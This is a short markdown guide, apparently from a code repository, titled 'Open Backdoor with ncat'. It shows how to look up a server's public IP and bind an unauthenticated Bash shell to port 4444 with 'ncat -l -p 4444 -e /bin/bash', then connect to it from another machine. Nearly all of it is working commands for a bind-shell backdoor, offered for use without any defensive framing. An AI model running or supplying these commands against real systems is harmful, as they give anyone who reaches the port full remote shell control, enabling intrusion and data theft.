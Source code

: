 # Open Backdoor with ncat

- Ncat allows you to use the normal cat functionality over networks.

- Install ncat on both side,
  `sudo apt install ncat`

## On Server Side

```bash
curl http://icanhazip.com
ncat -l -p 4444 -e /bin/bash
```

- To check whether server is listened or not,
  `lsof -i -P -n | grep LISTEN`

## On Your System

- To connect the server from the port opened,
  `ncat $ipAdress 4444`
- or
  `ncat $domainname.com 4444`
